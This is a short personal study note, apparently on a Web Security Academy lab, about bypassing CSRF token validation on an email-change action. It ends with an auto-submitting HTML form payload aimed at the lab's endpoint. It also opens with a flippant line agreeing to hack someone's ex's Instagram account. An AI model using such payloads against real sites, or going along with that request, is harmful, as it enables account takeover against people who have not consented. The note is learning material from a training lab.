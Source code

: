 # NOTES
Someone asked me to hack into their ex's Instagram. I told them sure thing I could use an X-Site-Request-Forgery. 

## LEARNINGS 
- CSRF Token Bypass 2 : To bypass the validation, simply get RID of the CSRF token... DUH 

### EXPLOIT 
- This challenge had CSRF token validation on the email change action 
![[Pasted image 20220126055135.png]]
- Simply Sent a packet without CSRF Token and it changed the God Damn email on the website
![[Pasted image 20220126055344.png]]
- Taking the above into consideration, crafted a payload that just just CSRF tokens and does WHAT it WANTS #THANOS_INEVITABLE

		404 : Not Found 
		 <html>
		  <body>
		    <form action="https://ac581f3f1e48dba8c09178fb00c9002d.web-security-academy.net/my-account/change-email" method="POST">
		      <input type="hidden" name="csrf" value="3JX7u51QbzD66oQYbMpw9hLCxGM4q7Ee" />
		    </form>
		    <script>
		      document.forms[0].submit();
		    </script>
		  </body>
		</html> 
